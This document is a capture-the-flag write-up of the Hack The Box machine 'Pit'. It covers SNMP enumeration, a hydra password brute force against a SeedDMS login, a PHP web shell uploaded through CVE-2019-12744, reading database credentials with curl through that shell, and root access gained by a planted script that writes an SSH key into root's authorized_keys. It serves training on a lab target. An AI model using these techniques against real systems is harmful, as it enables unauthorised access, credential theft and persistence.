

<p align="right">   <a href="https://www.hackthebox.eu/home/users/profile/391067" target="_blank"></a>
</p>

# Enumeration

**IP-ADDR:** 10.10.10.241 pit.htb

**nmap scan:**
```bash
PORT     STATE SERVICE         VERSION
22/tcp   open  ssh             OpenSSH 8.0 (protocol 2.0)
| ssh-hostkey: 
|   3072 6f:c3:40:8f:69:50:69:5a:57:d7:9c:4e:7b:1b:94:96 (RSA)
|   256 c2:6f:f8:ab:a1:20:83:d1:60:ab:cf:63:2d:c8:65:b7 (ECDSA)
|_  256 6b:65:6c:a6:92:e5:cc:76:17:5a:2f:9a:e7:50:c3:50 (ED25519)
80/tcp   open  http            nginx 1.14.1
|_http-server-header: nginx/1.14.1
|_http-title: Test Page for the Nginx HTTP Server on Red Hat Enterprise Linux
161/udp open  snmp    SNMPv1 server; net-snmp SNMPv3 server (public)
| snmp-info: 
|   enterprise: net-snmp
|   engineIDFormat: unknown
|   engineIDData: 4ca7e41263c5985e00000000
|   snmpEngineBoots: 71
|_  snmpEngineTime: 2m28s 
| snmp-sysdescr: Linux pit.htb 4.18.0-240.22.1.el8_3.x86_64 #1 SMP Thu Apr 8 19:01:30 UTC 2021 x86_64
|_  System uptime: 2m28.24s (14824 timeticks)
9090/tcp open  ssl/zeus-admin?
... [snip] ...
| ssl-cert: Subject: commonName=dms-pit.htb/organizationName=4cd9329523184b0ea52ba0d20a1a6f92/countryName=US
| Subject Alternative Name: DNS:dms-pit.htb, DNS:localhost, IP Address:127.0.0.1
1 service unrecognized despite returning data.
```

* **Port 9090:** centOS login page(?)

  

  * cookie header contians cockpit value. **[cockpit](https://cockpit-project.org/)** is a web-based graphical interface for servers, intended for everyone, especially those who are: new to Linux (including Windows admins) familiar with Linux and want an easy, graphical way to administer servers.

* **hostname:** `dms-pit.htb` from 9090 Port ssl certificate have **403 Forbidden**
* **Port 80:** home is **nginx default page**.

# Foothold

## SNMP Enumeration

**SNMP(Simple Network Management Protocol)** is a protocol used to monitor different devices in the network (like routers, switches, printers, IoTs...).

* SNMP Enumeration [hacktricks.xyz](https://book.hacktricks.xyz/pentesting/pentesting-snmp)

**MIB** stands for Management Information Base and is a collection of information organized hierarchically. These are accessed using a protocol such as SNMP. There are two types of MIBs: scalar and tabular.

Scalar objects define a single object instance whereas tabular objects define multiple related object instances grouped in MIB tables.

**OIDs** stands for Object Identifiers. OIDs uniquely identify managed objects in a MIB hierarchy. This can be depicted as a tree, the levels of which are assigned by different organizations. Top level MIB object IDs (OIDs) belong to different standard organizations.

*More on [hacktricks.xyz](https://book.hacktricks.xyz/pentesting/pentesting-snmp#oids)*

There is a tool that convert these MIBs to human readable formate
```bash
sudo apt install snmp-mibs-downloader
```

after installed you can control them from `sudo vim /etc/snmp/snmp.conf` and adding comment on line `mibs :` to enable and remove comment to diable.

**SNMP Versions**

* SNMP `v1`: Main one, it is still the most frequent, the authentication is based on a string (community string) that travels in plain-text (all the information travels in plain text).
* SNMP `v2` and `v2c`: send the traffic in plain text also and uses a community string as authentication.
* SNMP `v3`: Uses a better authentication form and the information travels encrypted using (dictionary attack could be performed but would be much harder to find the correct creds that inn SNMPv1 and v2).

**Community Strings**

In order to access the information saved on the MIB you need to know the community string on versions `1` and `2/2c` and the credentials on version `3`.

The are 2 types of community strings:

* public mainly read only functions 
* private Read/Write in general

We can also bruteforce snmp Community Strings with [onesixtyone](https://github.com/trailofbits/onesixtyone)
```bash
❯ onesixtyone -c /usr/share/seclists/Discovery/SNMP/snmp-onesixtyone.txt 10.10.10.241
Scanning 1 hosts, 3219 communities
10.10.10.241 [public] Linux pit.htb 4.18.0-240.22.1.el8_3.x86_64 #1 SMP Thu Apr 8 19:01:30 UTC 2021 x86_64
10.10.10.241 [public] Linux pit.htb 4.18.0-240.22.1.el8_3.x86_64 #1 SMP Thu Apr 8 19:01:30 UTC 2021 x86_64
```

Enumerating snmp with `snmpwalk` tool

* enable `snmp-mibs-downloader` to get output in readable format.
  * First, install with `sudo apt-get install snmp-mibs-downloader`
  * Now, edit the file `/etc/snmp/snmp.conf` and commenting out `mibs :` line.

some importent information from `snmpwalk`.

[netSnmpObjects](https://oidref.com/1.3.6.1.4.1.8072.1): Extend snmp functionality with external scripts and command.
```bash
❯ snmpwalk -v2c -c public 10.10.10.241 netSnmpObjects
NET-SNMP-EXTEND-MIB::nsExtendNumEntries.0 = INTEGER: 1
NET-SNMP-EXTEND-MIB::nsExtendCommand."monitoring" = STRING: /usr/bin/monitor
NET-SNMP-EXTEND-MIB::nsExtendArgs."monitoring" = STRING: 
NET-SNMP-EXTEND-MIB::nsExtendInput."monitoring" = STRING: 
NET-SNMP-EXTEND-MIB::nsExtendCacheTime."monitoring" = INTEGER: 5
NET-SNMP-EXTEND-MIB::nsExtendExecType."monitoring" = INTEGER: exec(1)
NET-SNMP-EXTEND-MIB::nsExtendRunType."monitoring" = INTEGER: run-on-read(1)
NET-SNMP-EXTEND-MIB::nsExtendStorage."monitoring" = INTEGER: permanent(4)
NET-SNMP-EXTEND-MIB::nsExtendStatus."monitoring" = INTEGER: active(1)
NET-SNMP-EXTEND-MIB::nsExtendOutput1Line."monitoring" = STRING: Memory usage
NET-SNMP-EXTEND-MIB::nsExtendOutputFull."monitoring" = STRING: Memory usage
              total        used        free      shared  buff/cache   available
Mem:          3.8Gi       499Mi       2.8Gi        80Mi       585Mi       3.0Gi
Swap:         1.9Gi          0B       1.9Gi
Database status
OK - Connection to database successful.
System release info
CentOS Linux release 8.3.2011
SELinux Settings
user

                Labeling   MLS/       MLS/                          
SELinux User    Prefix     MCS Level  MCS Range                      SELinux Roles

guest_u         user       s0         s0                             guest_r
root            user       s0         s0-s0:c0.c1023                 staff_r sysadm_r system_r unconfined_r
staff_u         user       s0         s0-s0:c0.c1023                 staff_r sysadm_r unconfined_r
sysadm_u        user       s0         s0-s0:c0.c1023                 sysadm_r
system_u        user       s0         s0-s0:c0.c1023                 system_r unconfined_r
unconfined_u    user       s0         s0-s0:c0.c1023                 system_r unconfined_r
user_u          user       s0         s0                             user_r
xguest_u        user       s0         s0                             xguest_r
login

Login Name           SELinux User         MLS/MCS Range        Service

**default**          unconfined_u         s0-s0:c0.c1023       *
michelle             user_u               s0                   *
root                 unconfined_u         s0-s0:c0.c1023       *
# ... [snip] ...
```


[dskTable](https://oidref.com/1.3.6.1.4.1.2021.9): Disk watching information. Partions to be watched are configured by the snmpd.conf file of the agent.

```bash
❯ snmpwalk -v2c -c public 10.10.10.241 dskTable
UCD-SNMP-MIB::dskIndex.1 = INTEGER: 1
UCD-SNMP-MIB::dskIndex.2 = INTEGER: 2
UCD-SNMP-MIB::dskPath.1 = STRING: /
UCD-SNMP-MIB::dskPath.2 = STRING: /var/www/html/seeddms51x/seeddms
UCD-SNMP-MIB::dskDevice.1 = STRING: /dev/mapper/cl-root
UCD-SNMP-MIB::dskDevice.2 = STRING: /dev/mapper/cl-seeddms
UCD-SNMP-MIB::dskMinimum.1 = INTEGER: 10000
# ... [snip] ...
```

* found **potential username:** `michelle`
* Web direcotry: `/seeddms51x/seeddms`
* snmp extended command: `/usr/bin/monitor`
* OS: CentOS Linux release 8.3.2011
* SELinux Enabled

## SeedDMS

* get SeedDMS login page from `http://dms-pit.htb/seeddms51x/seeddms`
  * **SeedDMS** is a free document management system with an easy to use web based user interface for small and medium sized enterprises. It is based on PHP and MySQL or sqlite3


There is a authenticated RCE for SeedDMS versions 5.1.11
* **[CVE-2019-12744](https://nvd.nist.gov/vuln/detail/CVE-2019-12744):** SeedDMS before 5.1.11 allows Remote Command Execution (RCE) because of unvalidated file upload of PHP scripts
```bash
❯ searchsploit seeddms
----------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                     |  Path
----------------------------------------------------------------------------------- ---------------------------------
... [snip] ...
SeedDMS versions < 5.1.11 - Remote Command Execution                               | php/webapps/47022.txt
----------------------------------------------------------------------------------- ---------------------------------
```

* Don't have version information.
* And it is a authenticated RCE, required login creds.

## Login Form Bruteforce with hydra

* Bruteforcing passowrd for username found in SNMP Enumeration: `michelle`.

using hydra to bruteforce passowrd.


```bash
"<url>:<login-data>:<error>"
```

```bash
hydra -l michelle -P /usr/share/seclists/Passwords/darkweb2017-top10000.txt dms-pit.htb http-post-form "/seeddms51x/seeddms/op/op.Login.php:referuri=%2Fseeddms51x%2Fseeddms%2Fout%2Fout.ViewFolder.php%3Ffolderid%3D1&login=^USER^&pwd=^PASS^&lang=:Error signing in."
```


<!--michelle:michelle-->

## SeedDMS RCE

SeedDMS versions < 5.1.11 - Remote Command Execution from [ExploitDB](https://www.exploit-db.com/exploits/47022)

**First,** find Michelle documents folder


**Second,** Upload php web shell
```php
<?php

if(isset($_REQUEST['cmd'])){
        echo "<pre>";
        $cmd = ($_REQUEST['cmd']);
        system($cmd);
        echo "</pre>";
        die;
}

?>
```

* find document ID

  

**Third,** Go to `http://dms-pit.htb/seeddms51x/seeddms/data/1048576/29/1.php?cmd=id` to get the command response in browser.
* "data" and "1048576" are default folders where the uploaded files are get saved.
* any file name renamed to `1`



_Reverse shell is not working_ **Reason: [SElinux](https://www.redhat.com/en/topics/linux/what-is-selinux); ippsec [explained](https://www.youtube.com/watch?v=IF5uhe1qR2I&t=3380s)**

After some enumeration from web shell, found database creds. 
```bash
❯ curl -s 'http://dms-pit.htb/seeddms51x/data/1048576/35/1.php?cmd=cat+../../../conf/settings.xml|grep+dbPass|tail+-n1'
<pre>    <database dbDriver="mysql" dbHostname="localhost" dbDatabase="seeddms" dbUser="seeddms" dbPass="ied^ieY6xoquu" doNotCheckVersion="false">
</pre>%
```

Creds worked for cockpit server with username "michelle".


<!--michelle:ied^ieY6xoquu-->

And get the user shell on host form cockpit terminal.


# Privesc

## Access control list(ACL)

* While enumerating SNMP we found a script `/usr/bin/monitor`.

`/usr/bin/monitor` is a bash script that executing another bash script from `/usr/local/monitoring`, But user "michelle" don't have permission to access this folder.


But there is extra permission in this folder which identified by `+` in the end of the all permissions.

This adds acl permissions to this direcotry

**ACL**(Access control list) provides an additional, more flexible permission mechanism for file systems. It is designed to assist with UNIX file permissions. ACL allows you to give permissions for any user or group to any disc resource.

* how acl works from [geeksforgeeks.org](https://www.geeksforgeeks.org/access-control-listsacl-linux/)
* ippsec explain in his [video](https://www.youtube.com/watch?v=SgWhuTxm2oY&t=1800s)


we can use `getfacl` command to view ACL permissions
```bash
getfacl -e /usr/local/monitoring
```


looking the acl permissions we can see that user "michelle" have `#effective:-wx` that means user "michelle" can write&execute but can't read.

## SNMP Extend Command

SNMP executes `/usr/bin/monitor` script.
```bash
❯ snmpwalk -v2c -c public 10.10.10.241 nsExtendCommand
NET-SNMP-EXTEND-MIB::nsExtendCommand."monitoring" = STRING: /usr/bin/monitor
```

* `nsExtendCommand` stand for "full path of the command binary (or script) to run"  and there is only one binary in this snmp.
* Net-SNMP agent provides a method to extend SNMP in Cumulus Linux via the NET-SNMP-EXTEND-MIB. using this MIB to query shell scripts specified by the extend directive in `/etc/snmp/snmpd.conf`.


That script executes all/any script from `/usr/local/monitoring` directory with `check*sh`
```bash
#!/bin/bash

for script in /usr/local/monitoring/check*sh
do
    /bin/bash $script
done
```

We can exploit this by create reverse shell script in `/usr/local/monitoring/` and than execute it from snmp.

**First,** create bash script in `/usr/local/monitoring` folder
```bash
echo -e '#!/bin/bash\n\necho "ssh-rsa <public_key>" > /root/.ssh/authorized_keys' > /usr/local/monitoring/check-pwn.sh
```

**Second,** execute snmp extend script `/usr/bin/monitor` with [nsExtendObjects](https://oidref.com/1.3.6.1.4.1.8072.1.3.2) from `NET-SNMP-EXTEND-MIB`
* use MIB `nsExtendObjects` if direct OID is not work.
* And with that we don't have to run complete snmpwalk and directly execute snmp extend scripts.

```bash
snmpwalk -v2c -c public 10.10.10.241 1.3.6.1.4.1.8072.1.3.2
```

*Don't know why but nothing else is working for me besides echoing ssh key* **Reason: [SElinux](https://www.redhat.com/en/topics/linux/what-is-selinux); ippsec [explained](https://www.youtube.com/watch?v=IF5uhe1qR2I&t=3380s)**


